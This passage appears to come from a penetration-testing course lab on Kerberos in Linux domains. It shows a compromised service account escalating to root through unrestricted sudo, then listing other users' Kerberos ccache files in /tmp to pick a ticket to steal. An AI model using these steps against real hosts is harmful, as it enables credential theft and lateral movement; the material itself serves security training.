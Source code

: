 ### **Privilege Escalation to Root**

```shell-session
$ ssh svc_workstations@inlanefreight.htb@10.129.204.23 -p 2222
                  
svc_workstations@inlanefreight.htb@10.129.204.23's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-126-generic x86_64)          
...SNIP...

svc_workstations@inlanefreight.htb@linux01:~$ sudo -l
[sudo] password for svc_workstations@inlanefreight.htb: 
Matching Defaults entries for svc_workstations@inlanefreight.htb on linux01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User svc_workstations@inlanefreight.htb may run the following commands on linux01:
    (ALL) ALL
svc_workstations@inlanefreight.htb@linux01:~$ sudo su
root@linux01:/home/svc_workstations@inlanefreight.htb# whoami
root
```

As root, we need to identify which tickets are present on the machine, to whom they belong, and their expiration time.

### **Looking for ccache Files**

```shell-session
root@linux01:~# ls -la /tmp

total 76
drwxrwxrwt 13 root                               root                           4096 Oct  7 11:35 .
drwxr-xr-x 20 root                               root                           4096 Oct  6  2021 ..
-rw-------  1 julio@inlanefreight.htb            domain users@inlanefreight.htb 1406 Oct  7 11:35 krb5cc_647401106_HRJDux
-rw-------  1 julio@inlanefreight.htb            domain users@inlanefreight.htb 1406 Oct  7 11:35 krb5cc_647401106_qMKxc6
-rw-------  1 david@inlanefreight.htb            domain users@inlanefreight.htb 1406 Oct  7 10:43 krb5cc_647401107_O0oUWh
-rw-------  1 svc_workstations@inlanefreight.htb domain users@inlanefreight.htb 1535 Oct  7 11:21 krb5cc_647401109_D7gVZF
-rw-------  1 carlos@inlanefreight.htb           domain users@inlanefreight.htb 3175 Oct  7 11:35 krb5cc_647402606
-rw-------  1 carlos@inlanefreight.htb           domain users@inlanefreight.htb 1433 Oct  7 11:01 krb5cc_647402606_ZX6KFA
```

There is one user (julio@inlanefreight.htb) to whom we have not yet gained access. We can confirm the groups to which he belongs using `id`.

### **Identifying Group Membership with the id Command**
